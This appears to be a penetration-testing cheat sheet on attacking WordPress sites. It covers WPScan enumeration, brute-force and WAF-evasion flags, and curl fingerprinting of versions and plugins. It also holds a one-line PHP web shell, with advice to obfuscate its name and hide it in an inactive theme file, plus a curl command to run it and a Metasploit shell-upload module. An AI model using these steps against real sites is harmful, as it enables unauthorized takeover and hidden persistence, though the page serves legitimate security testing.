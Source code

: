 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# WordPress

## General Information

### Directories

* `/wp-admin` -> `/wp-login.php`
* `/wp-content/plugins/`
* `/wp-content/themes/`

### Roles & Permissions

<table><thead><tr><th width="192">Role</th><th>Permissions</th></tr></thead><tbody><tr><td>Administrator</td><td>King!</td></tr><tr><td>Editor</td><td>Post management + publish (for all users)</td></tr><tr><td>Author</td><td>Post management + publish (owned posts)</td></tr><tr><td>Contributor</td><td>Post management (owned posts)</td></tr><tr><td>Subscriber</td><td>Browse posts, manage its own profile</td></tr></tbody></table>

## WPScan

> For vulnerability scanning get a token from [WPScan](https://wpscan.com/).

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo wpscan --url example.com -e u --passwords password.lst
</strong></code></pre>
{% endtab %}

{% tab title="WAF Evasion" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>sudo wpscan --url example.com --enumerate --api-token &#x3C;TOKEN> --random-user-agent
</strong></code></pre>
{% endtab %}
{% endtabs %}

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) -> uses WP's API to BF (`xmlrpc.php`) (this is faster)
2. wp-login -> attempts to BF `wp-login.php`

{% embed url="https://github.com/wpscanteam/wpscan" %}
WPScan's GitHub repository.
{% endembed %}

{% embed url="https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation" %}
Wiki page for WPScan.
{% endembed %}

## Manual

{% tabs %}
{% tab title="Version" %}
```bash
curl -s example.com | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s example.com | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s example.com | grep plugins
```
{% endtab %}

{% tab title="Plugin Version*" %}
{% code overflow="wrap" %}
```bash
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
\*Plugin version requires Directory listing to be enabled.
{% endhint %}

## RCE

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

## Metasploit

```bash
msfconsole -q
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```

{% tabs %}
{% tab title="Launch Metasploit" %}
```bash
msfconsole -q
```
{% endtab %}

{% tab title="Use MSF's module*" %}
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
\*Make sure to `set VHOST`!
{% endhint %}
